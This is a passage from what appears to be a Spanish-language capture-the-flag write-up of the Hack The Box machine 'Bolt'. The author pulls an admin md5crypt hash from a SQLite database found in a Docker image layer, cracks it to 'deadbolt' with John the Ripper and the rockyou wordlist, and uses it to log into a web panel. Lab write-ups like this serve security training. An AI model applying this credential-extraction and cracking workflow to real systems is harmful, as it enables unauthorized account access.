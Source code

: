 Accedemos al directorio donde reside el archivo `layer.tar`, descomprimimos y con `sqlie3` procedemos a examinar su contenido donde encontramos una credencial con una contraseña hasheada

```bash
❯ sqlite3 db.sqlite3
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
User
sqlite> select * from User;
1|admin|admin@bolt.htb|$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.||
```

Tratamos de romper la contraseña con `john`

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
deadbolt         (?)
1g 0:00:00:00 DONE (2022-12-10 11:57) 1.123g/s 194157p/s 194157c/s 194157C/s doida..curtis13
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Con la contraseña obtenida podemos conectarnos a través del panel de login que se encuentra dentro del servicio web en el puerto 80

<img src="/assets/HTB/Bolt/login.png">

